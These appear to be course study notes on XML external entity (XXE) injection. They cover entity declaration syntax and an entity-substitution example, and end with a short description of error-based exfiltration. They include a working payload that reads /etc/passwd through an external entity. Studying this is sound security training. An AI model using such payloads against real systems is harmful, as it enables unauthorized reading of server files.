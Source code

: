 ####### External Entities

```
<!ENTITY name SYSTEM "URI">

<!ENTITY offsecinfo SYSTEM "http://www.offsec.com/company.xml">


<!ENTITY name PUBLIC "public_id" "URI">

<!ENTITY offsecinfo PUBLIC "-//W3C//TEXT companyinfo//EN" "http://www.offsec.com/companyinfo.xml">
```

####### Parameter Entities

```
<!ENTITY % name SYSTEM "URI">

```

In this example, a parameter entity is used along with an internal entity.

```
<!ENTITY % course 'WEB 200'>
<!ENTITY Title 'Offensive Security presents %course;'>

```


```
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Replaced">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

###### Retrieving Files

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<Contact>
  <lastName>&lastname;</lastName>
  <firstName>Tom</firstName>
</Contact>
```

###### Error-based Testing

If the application parses XML data and saves the results in a database, we can try to force a SQL error based on column data type or length. Alternatively, we could generate an error by forcing the parser to access a file that doesn't exist. We can stack parameter entities so that the contents of the file we want to retrieve are appended to the name of the non-existent file. When we retrieve these responses in the same "channel" or data stream as the exploit, this is known as in-band exfiltration.
